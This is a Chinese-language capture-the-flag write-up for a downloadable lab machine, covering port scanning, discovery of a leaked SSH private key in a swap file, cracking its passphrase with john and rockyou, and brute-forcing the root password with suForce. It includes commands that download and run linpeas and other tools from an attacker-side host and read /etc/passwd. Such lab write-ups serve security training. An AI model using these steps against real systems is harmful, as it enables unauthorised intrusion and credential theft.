## 复盘*

## 靶机地址

[Proton Drive](https://drive.proton.me/urls/YE5BWGN13G#BcXayhKcgff2)




## 信息收集

### nmap扫描

#### 准备阶段

```
mkdir nmapscan
```




#### 主机探测

```
nmap -sn 192.168.23.0/24
```



确定靶机ip：

192.168.23.144


#### 端口扫描

```
nmap -p- --min-rate 10000 -sT 192.168.23.144 -oA ./nmapscan/ports
```



开放了：

- 22 ssh
- 80 http


#### 提取端口信息

```
ports
```




#### 详细结果扫描

```
nmap -sT -sV -sC -O -p 22,80 192.168.23.144 -oA ./nmapscan/detail
```



分析：

- 22 ssh OpenSSH 8.4p1 
- 80 http Apache httpd 2.4.56 


#### udp扫描

```
nmap -sU --top-ports 20 192.168.23.144 -oA ./nmapscan/udp
```




### 80端口

#### 访问192.168.23.144



apache主页

查看源码无信息


#### dirsearch目录扫描

```
dirsearch -u 192.168.23.144
```



无结果


#### gobuster目录扫描

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://192.168.23.144 -x php,txt
```



得到notes.txt


#### 访问notes.txt



```
Fuck!

configuring SSH, I closed the editor by mistake and lost the key.. I can't find it

Diego

该死！

配置SSH时，我错误地关闭了编辑器，丢失了密钥……我找不到它了。

Diego
```

得到用户名

- diego

同时判断存在swp泄露

密钥文件，id_rsa，是一个隐藏文件


#### 尝试访问.id_rsa.swp



删去.



得到私钥


### 22 端口

#### 保存私钥文件

```
wget 192.168.23.144/id_rsa.swp
cat id_rsa.swp
```






#### 修改密钥权限，尝试免密登录

```
chmod 600 id_rsa.swp
ssh diego@192.168.23.144 -i id_rsa.swp
```



失败，需要密码


### 利用john爆破

```
ssh2john id_rsa.swp > hash
john hash -w=/usr/share/wordlists/rockyou.txt
```



得到密码

- sandiego


### 重新登录

```
ssh diego@192.168.23.144 -i id_rsa.swp
```



成功


## 提权

### 得到第一个flag

```
ls
cat user.txt
```




### 尝试sudo -l

```
sudo -l
```




### 查看/etc/passwd

```
cat /etc/passwd
```



只有当前这一个普通用户


### suid位查找

```
find / -perm -4000 2>/dev/null
```




### 上传linpeas.sh

```
wget 192.168.23.134/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```



无关键信息


### 上传les.sh




但是没有make没有gcc


看别的wp是直接爆破root密码


### 上传工具和字典

```
wget 192.168.23.134/suForce
chmod +x suForce
wget 192.168.23.134/techyou.txt
```


### 爆破root用户

```
./suForce -u root -w techyou.txt
```



得到root密码


### 切换root用户

```
su root
```




### 得到第二个flag

```
cd /root
ls
cat root.txt
```

